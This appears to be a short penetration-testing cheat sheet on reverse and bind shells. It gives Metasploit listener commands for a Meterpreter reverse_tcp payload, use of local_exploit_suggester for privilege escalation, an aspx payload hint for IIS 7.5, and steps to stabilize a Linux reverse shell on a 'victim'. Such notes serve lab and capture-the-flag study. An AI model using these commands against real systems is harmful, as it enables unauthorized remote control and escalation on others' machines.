 # SHELL, reverse, bind

## msfconsole

- listener

  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
    - the same one used to generate the payload with msfvenom

- privesc
  - Running `sysinfo` in the Meterpreter session reveals that the target is x86 architecture, so it is
    possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
    not be said for running the module on x64
  - `use post/multi/recon/local_exploit_suggester`
    - find potential vectors for privesc, msf modules

## payloads

- for `Microsoft IIS httpd 7.5` use aspx file

## Linux shell stabilization

- `python2 -c 'import pty;pty.spawn("/bin/bash")'`
- ctrl + z to background
- `stty raw -echo`, to fix tab completition
- `fg`, to bring back the shell

- [optional, fix vim]
  - on attacker
    - `echo $TERM`
      > xterm-256color
  - on victim rev shell
    - `export TERM=screen`
    - or `export TERM=xterm-256color` ?
